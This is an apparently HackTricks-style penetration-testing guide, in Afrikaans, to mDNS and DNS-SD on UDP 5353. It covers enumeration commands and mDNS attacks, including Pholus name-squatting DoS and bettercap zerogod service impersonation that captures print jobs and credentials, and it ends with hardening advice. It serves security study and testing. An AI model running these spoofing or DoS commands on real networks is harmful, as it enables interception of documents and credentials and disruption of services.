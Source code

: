 # 5353/UDP Multicast DNS (mDNS) en DNS-SD

{{#include ../banners/hacktricks-training.md}}

## Basiese Inligting

Multicast DNS (mDNS) stel DNS-agtige naamoplossing en diensontdekking in staat binne 'n plaaslike skakel sonder 'n unicast DNS-bediener. Dit gebruik UDP/5353 en die multicast adresse 224.0.0.251 (IPv4) en FF02::FB (IPv6). DNS Diensontdekking (DNS-SD, tipies gebruik saam met mDNS) bied 'n gestandaardiseerde manier om dienste te tel en te beskryf via PTR, SRV en TXT rekords.
```
PORT     STATE SERVICE
5353/udp open  zeroconf
```
Belangrike protokol besonderhede wat jy dikwels tydens aanvalle sal benut:
- Name in die .local sone word via mDNS opgelos.
- QU (Query Unicast) bit kan unicast-antwoorde versoek selfs vir multicast-vrae.
- Implementasies moet pakkette wat nie van die plaaslike skakel afkomstig is nie, ignoreer; sommige stakke aanvaar steeds hulle.
- Probing/aanbieding afdwing unieke gasheer/dienste name; inmenging hier skep DoS/“name squatting” toestande.

## DNS-SD diensmodel

Dienste word geïdentifiseer as _<service>._tcp of _<service>._udp onder .local, bv. _ipp._tcp.local (drukkers), _airplay._tcp.local (AirPlay), _adb._tcp.local (Android Debug Bridge), ens. Ontdek tipes met _services._dns-sd._udp.local, en los dan ontdekte instansies op na SRV/TXT/A/AAAA.

## Netwerk Verkenning en Enumerasie

- nmap teiken skandering (direkte mDNS op 'n gasheer):
```bash
nmap -sU -p 5353 --script=dns-service-discovery <target>
```
- nmap uitsending ontdekking (luister na die segment en enumerate alle DNS-SD tipes/instansies):
```bash
sudo nmap --script=broadcast-dns-service-discovery
```
- avahi-browse (Linux):
```bash
# Lys diens tipes
avahi-browse -bt _services._dns-sd._udp
# Blaai alle dienste en los op na gasheer/poort
avahi-browse -art
```
- Apple dns-sd (macOS):
```bash
# Blaai alle HTTP dienste
dns-sd -B _http._tcp
# Enumereer diens tipes
dns-sd -B _services._dns-sd._udp
# Los 'n spesifieke instansie op na SRV/TXT
dns-sd -L "My Printer" _ipp._tcp local
```
- Pakket vang met tshark:
```bash
# Lewende vang
sudo tshark -i <iface> -f "udp port 5353" -Y mdns
# Slegs DNS-SD diens lys vrae
sudo tshark -i <iface> -f "udp port 5353" -Y "dns.qry.name == \"_services._dns-sd._udp.local\""
```

Wenk: Sommige blaaiers/WebRTC gebruik ephemerale mDNS gasheername om plaaslike IP's te masker. As jy random-UUID.local kandidate op die draad sien, los hulle op met mDNS om na plaaslike IP's te pivot.

## Aanvalle

### mDNS naam probing inmenging (DoS / name squatting)

Tydens die probing fase, kontroleer 'n gasheer naam uniekheid. Om te antwoord met gespoofde konflikte dwing dit om nuwe name te kies of te misluk. Dit kan diensregistrasie en ontdekking vertraag of voorkom.

Voorbeeld met Pholus:
```bash
# Block new devices from taking names by auto-faking responses
sudo python3 pholus3.py <iface> -afre -stimeout 1000
```
### Diens spoofing en impersonasie (MitM)

Impersonate geadverteerde DNS-SD dienste (drukkers, AirPlay, HTTP, lêer deel) om kliënte te dwing om met jou te verbind. Dit is veral nuttig om:
- Dokumente te vang deur _ipp._tcp of _printer._tcp te spoof.
- Kliënte na HTTP/HTTPS dienste te lok om tokens/kookies te versamel of payloads af te lewer.
- Te kombineer met NTLM relay tegnieke wanneer Windows kliënte outentisering onderhandel met gespoofde dienste.

Met bettercap se zerogod module (mDNS/DNS-SD spoofer/impersonator):
```bash
# Start mDNS/DNS-SD discovery
sudo bettercap -iface <iface> -eval "zerogod.discovery on"

# Show all services seen from a host
> zerogod.show 192.168.1.42

# Impersonate all services of a target host automatically
> zerogod.impersonate 192.168.1.42

# Save IPP print jobs to disk while impersonating a printer
> set zerogod.ipp.save_path ~/.bettercap/zerogod/documents/
> zerogod.impersonate 192.168.1.42

# Replay previously captured services
> zerogod.save 192.168.1.42 target.yml
> zerogod.advertise target.yml
```
Ook kyk na generiese LLMNR/NBNS/mDNS/WPAD spoofing en geloofsbrief vang/relay werkvloei:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

### Aantekeninge oor onlangse implementasie probleme (nuttig vir DoS/persistensie tydens betrokkenhede)

- Avahi bereikbare-assertie en D-Bus crash foute (2023) kan avahi-daemon op Linux verspreidings beëindig (bv. CVE-2023-38469..38473, CVE-2023-1981), wat diensontdekking op teikenhosts ontwrig totdat dit herbegin word.
- Cisco IOS XE Wireless LAN Controller mDNS gateway DoS (2024, CVE-2024-20303) laat aangrensende aanvallers toe om hoë CPU te dryf en AP's te ontkoppel. As jy 'n mDNS-gateway tussen VLAN's teëkom, wees bewus van sy stabiliteit onder verkeerd gevormde of hoë-tempo mDNS.

## Verdedigende oorwegings en OPSEC

- Segmentgrense: Moet nie 224.0.0.251/FF02::FB tussen sekuriteitsgebiede roete nie, tensy 'n mDNS-gateway eksplisiet vereis word. As jy ontdekking moet oorbrug, verkies toelaatlys en tempo beperkings.
- Windows eindpunte/bedieners:
- Om naamresolusie via mDNS hard te deaktiveer, stel die registerwaarde in en herbegin:
```
HKLM\SYSTEM\CurrentControlSet\Services\Dnscache\Parameters\EnableMDNS = 0 (DWORD)
```
- In bestuurde omgewings, deaktiveer die ingeboude “mDNS (UDP-In)” Windows Defender Firewall reël (ten minste op die Domein profiel) om inkomende mDNS verwerking te voorkom terwyl huis/roaming funksionaliteit behou word.
- Op nuwer Windows 11 weergawes/GPO sjablone, gebruik die beleid “Rekenaar Konfigurasie > Administratiewe Sjablone > Netwerk > DNS Kliënt > Konfigureer multicast DNS (mDNS) protokol” en stel dit op Deaktiveer.
- Linux (Avahi):
- Beperk publikasie wanneer dit nie nodig is nie: stel `disable-publishing=yes`, en beperk interfaces met `allow-interfaces=` / `deny-interfaces=` in `/etc/avahi/avahi-daemon.conf`.
- Oorweeg `check-response-ttl=yes` en vermy `enable-reflector=yes` tensy dit streng vereis word; verkies `reflect-filters=` toelaatlys wanneer jy reflekteer.
- macOS: Beperk inkomende mDNS by gasheer/netwerk vuurmure wanneer Bonjour ontdekking nie nodig is vir spesifieke subnetwerke nie.
- Monitering: Alarmeer oor ongewone styging in `_services._dns-sd._udp.local` navrae of skielike veranderinge in SRV/TXT van kritieke dienste; dit is aanduiders van spoofing of diens impersonasie.

## Gereedskap vinnige verwysing

- nmap NSE: `dns-service-discovery` en `broadcast-dns-service-discovery`.
- Pholus: aktiewe skandering, omgekeerde mDNS sweeps, DoS en spoofing helpers.
```bash
# Passiewe sniff (timeout sekondes)
sudo python3 pholus3.py <iface> -stimeout 60
# Enumereer diens tipes
sudo python3 pholus3.py <iface> -sscan
# Stuur generiese mDNS versoeke
sudo python3 pholus3.py <iface> --request
# Omgekeerde mDNS sweep van 'n subnet
sudo python3 pholus3.py <iface> -rdns_scanning 192.168.2.0/24
```
- bettercap zerogod: ontdek, stoor, adverteer, en impersonate mDNS/DNS-SD dienste (sien voorbeelde hierbo).

## Spoofing/MitM

Die mees interessante aanval wat jy oor hierdie diens kan uitvoer, is om 'n MitM in die kommunikasie tussen die kliënt en die werklike bediener uit te voer. Jy mag in staat wees om sensitiewe lêers te verkry (MitM die kommunikasie met die drukker) of selfs geloofsbriewe (Windows verifikasie).\
Vir meer inligting, kyk:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

## Verwysings

- [Practical IoT Hacking: The Definitive Guide to Attacking the Internet of Things](https://books.google.co.uk/books/about/Practical_IoT_Hacking.html?id=GbYEEAAAQBAJ&redir_esc=y)
- [Nmap NSE: broadcast-dns-service-discovery](https://nmap.org/nsedoc/scripts/broadcast-dns-service-discovery.html)
- [bettercap zerogod (mDNS/DNS-SD discovery, spoofing, impersonation)](https://www.bettercap.org/modules/ethernet/zerogod/)

{{#include ../banners/hacktricks-training.md}}
